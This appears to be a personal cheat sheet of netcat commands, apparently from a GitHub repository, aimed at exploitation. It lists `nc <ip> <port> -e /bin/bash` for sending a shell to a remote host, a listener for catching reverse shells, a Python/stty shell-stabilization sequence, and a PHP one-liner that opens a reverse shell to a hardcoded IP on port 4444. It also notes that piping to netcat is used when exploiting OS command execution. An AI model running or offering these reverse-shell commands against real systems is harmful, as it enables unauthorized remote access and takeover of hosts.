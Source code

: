 # All of my used comamnds in netcat

- `echo hello | nc <ip> <port>` send the output of echo by tcp packets to the specified ip and port
  - This type of commands are used in exploiting os command execution
- `nc <ip> <port> -e /bin/bash` specify which program to execute after connect to a host
- `nc -l -p <port>` Listen for incoming packets from the specified port
- `nc -l -n -p <port>` Do not do any DNS or service lookups on any specified addresses, hostnames or

* `nc -lnvp <port>` listens to a port for backward connection
  ports while listening

- `nc -u` use UDP packets instead of tcp

## Shell Stabilization script

```bash
python -c "import pty;pty.spawn('/bin/bash')"
# ctrl+z
stty raw -echo
# type fg to regain the netcat shell and press some enters
export TERM=xterm
```

`php -r '$sock=fsockopen("10.8.215.27",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
